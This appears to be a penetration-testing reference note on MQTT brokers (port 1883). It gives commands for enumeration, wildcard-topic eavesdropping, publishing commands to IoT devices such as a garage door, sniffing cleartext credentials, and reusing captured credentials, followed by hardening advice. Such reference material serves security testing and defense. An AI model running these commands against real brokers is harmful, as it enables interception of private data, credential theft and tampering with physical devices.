

# 56 - MQTT (Port 1883) Pentesting

## 1. Executive Summary

MQTT is a lightweight **publish/subscribe** messaging protocol built for IoT/M2M devices on constrained networks, default **TCP 1883** (8883 for TLS). **Authentication is optional and encryption is off by default** — credentials, when used, travel in cleartext. The signature attack is dead simple: **subscribe to the wildcard topic `#`** and you receive *every* message flowing through the broker — sensor data, device commands, and often credentials/tokens. You can also **publish** to topics to send commands to IoT devices (open garage doors, toggle relays, spoof sensor data).

## 2. Protocol Overview & Architecture

Clients connect to a broker (e.g. Mosquitto), then `SUBSCRIBE` to topic filters or `PUBLISH` to topics. Topic wildcards: `#` matches all topics at/below a level; `$SYS/#` exposes broker internals (clients, version, stats). With no ACLs, any client reads and writes any topic — so the broker is a network-wide eavesdrop + command-injection point for connected devices. MITM also recovers cleartext credentials.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 1883 <IP>
# Subscribe to ALL topics (no auth)
mosquitto_sub -h <IP> -t "#" -v
mosquitto_sub -h <IP> -t "$SYS/#" -v     # broker internals: version, client count
```

## 4. Exploitation Deep Dive

### 4.1 Wildcard Eavesdrop
```bash
mosquitto_sub -h <IP> -t "#" -v          # capture every message: telemetry, commands, creds
```
The interactive client `python-mqtt-client-shell` does the same (`connect` then `subscribe "#" 1`).

### 4.2 Publish / Command Injection
Send commands to devices by publishing to their control topics:
```bash
mosquitto_pub -h <IP> -t "home/garage/door" -m "OPEN"
mosquitto_pub -h <IP> -t "<device/control>" -m "<payload>"
```

### 4.3 Cleartext Credential Capture
If auth is on but TLS isn't, sniff the CONNECT packet:
```bash
tcpdump -i eth0 -A 'tcp port 1883'       # username/password in clear
```

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Read all device telemetry + control traffic (eavesdrop entire deployment).
- Send commands to physical devices (safety/physical impact — authorized scope only).
- Captured creds → reuse on broker/other services.

## 7. Defense & Hardening
1. Require authentication + **TLS (8883)**; never run plaintext 1883 on untrusted nets.
2. Enforce per-client topic ACLs (no blanket `#` access); disable `$SYS` exposure.
3. Firewall 1883/8883 to known device subnets.
4. Validate published commands; rate-limit and authenticate publishers.

## 8. Chaining Opportunities
- Captured creds → cross-service reuse.
- Sibling brokers: **[[55 - NATS (Port 4222) Pentesting]]**, **[[54 - AMQP (Ports 5671-5672) Pentesting]]**.

## 9. Related Notes
- [[55 - NATS (Port 4222) Pentesting]]

## 10. Tools
`mosquitto_sub`/`mosquitto_pub`, `python-mqtt-client-shell`, `paho-mqtt`, `tcpdump`, `nmap`.
